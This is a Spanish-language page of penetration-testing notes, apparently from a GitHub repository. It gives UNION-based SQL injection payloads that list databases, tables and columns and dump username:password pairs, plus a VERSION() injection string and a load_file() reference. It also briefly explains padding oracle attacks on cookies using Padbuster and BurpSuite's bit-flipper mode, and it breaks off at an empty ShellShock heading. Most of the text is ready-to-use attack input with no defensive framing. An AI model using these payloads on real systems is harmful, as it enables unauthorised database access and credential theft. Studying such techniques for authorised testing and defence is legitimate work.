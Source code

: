 **@@version** : Muestra la versión de la base de datos

**database()** : Muestra la base de datos que se está usando

**user()** : Nombra el usuario que usa la base de datos

**load_file('')** : Carga un archivo que se coloque en las comillas

Para listar la base de datos de manera alternativa podemos usar el siguiente código:

```sql
select * from Tabla1 where id= 1 union select 1,schema_name,3,4 from information_schema.schemata
```

Para listar las tablas de una base de dato de manera alternativa usamos el siguiente código:

```sql
select * from Tabla1 where id= 1 union select 1,table_name,3,4 from information_schema.tables where table_schema = 'Table1';-- -;
```

Para listar las columnas el siguiente código:

```sql
select * from Tabla1 where id=1 union select 1, column_name,3,4 from information_schema.columns where table_schema='Table1' and table_name='Nombre_de_la_tabla' 
```

Para poder listar los datos que ya sabemos que la base de datos tiene podemos usar el siguiente código:

```sql
select * from Tabla1 where id=1 union select 1, concat(username,0x3a,password),3,4 from Tabla1.'Nombre_de_la_tabla'
```
Para poder obtener la versión de la base de datos que se está usando, también lo podemos hacer con el siguiente comando

```sql
' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --
```

## Vulnerabilidad Padding Oracle Attack - Padbuster

Esta vulnerabilidad no solo se aplica en las páginas web si no en cualquiera que utilice un algoritmo de cifrado de bloques de longitud variable (es decir que necesita usar relleno o padding) y son vulnerables.

[Explotar padding oracle para obtener claves de cifrado](https://www.hackplayers.com/2018/10/explotar-padding-oracle-para-obtener-clave.html)
 
 - Padding Oracle Attack - BurpSuite Bit Flipper Attack

Para este tipo de ataques utilizamos el burpsuit, mandamos el código fuente al intruder después cargamos un payload a la cookie y marcamos un ataque de tipo Bit Flipper y lo dejamos correr.
Con esta función automatiza el ataque y te envía la cookie correcta que buscas.

## Vulnerabilidad ShellShock
